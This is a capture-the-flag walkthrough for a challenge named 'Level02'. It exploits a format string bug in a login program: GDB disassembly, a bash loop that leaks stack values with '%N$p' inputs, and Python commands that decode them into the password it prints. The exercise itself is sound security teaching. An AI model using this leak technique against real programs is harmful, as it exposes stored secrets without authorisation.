 
# Level02 - Exploiting Format String Vulnerability to Retrieve Hidden Password

## Objective

The goal of this challenge is to exploit a format string vulnerability in the program to retrieve the hidden password and gain access.

## Step 1: Running the Program

First, let's run the program to observe its behavior:

```bash
$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: coucou
--[ Password: coucou
*****************************************
coucou does not have access!
```

The program prompts for a username and password, then denies access with a message.

## Step 2: Analyzing with GDB

To understand the program, let's analyze it using GDB (GNU Debugger). The disassembly shows the presence of `fopen` and `fread` functions used to read a password file. More importantly, there's a critical format string vulnerability in the `printf` function:

```assembly
0x0000000000400a96 <+642>: lea    rax,[rbp-0x70]
0x0000000000400a9a <+646>: mov    rdi,rax
0x0000000000400a9d <+649>: mov    eax,0x0
0x0000000000400aa2 <+654>: call   0x4006c0 <printf@plt>
```

The `printf` call directly uses a variable without proper formatting, leading to a format string vulnerability.

## Step 3: Exploiting the Format String

Using the vulnerability, we can print the stack content. The following command tests different stack positions to reveal interesting information:

```bash
$ for(( i = 1; i < 42; i++)); do echo "$i - %$i\$p" | ./level02 | grep does; done
```

Notable stack outputs appear at positions 22 to 26, showing hexadecimal strings that resemble encoded data:

```
22 - 0x756e505234376848 does not have access!
23 - 0x45414a3561733951 does not have access!
24 - 0x377a7143574e6758 does not have access!
25 - 0x354a35686e475873 does not have access!
26 - 0x48336750664b394d does not have access!
```

## Step 4: Converting Hex Strings to Characters

Convert these hexadecimal strings into readable ASCII text using Python:

```bash
$ python -c 'print "756e505234376848".decode("hex")[::-1]'
Hh74RPnu
$ python -c 'print "45414a3561733951".decode("hex")[::-1]'
Q9sa5JAE
$ python -c 'print "377a7143574e6758".decode("hex")[::-1]'
XgNWCqz7
$ python -c 'print "354a35686e475873".decode("hex")[::-1]'
sXGnh5J5
$ python -c 'print "48336750664b394d".decode("hex")[::-1]'
M9KfPg3H
```

Combine all the decoded strings to form the password:

`Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H`

## Summary

- The program has a format string vulnerability that allows printing stack data.
- Interesting data found in the stack positions can be decoded to retrieve a hidden password.
- The retrieved password is used to gain access, bypassing the login checks.

This approach demonstrates how to exploit format string vulnerabilities to extract sensitive information from a running program.

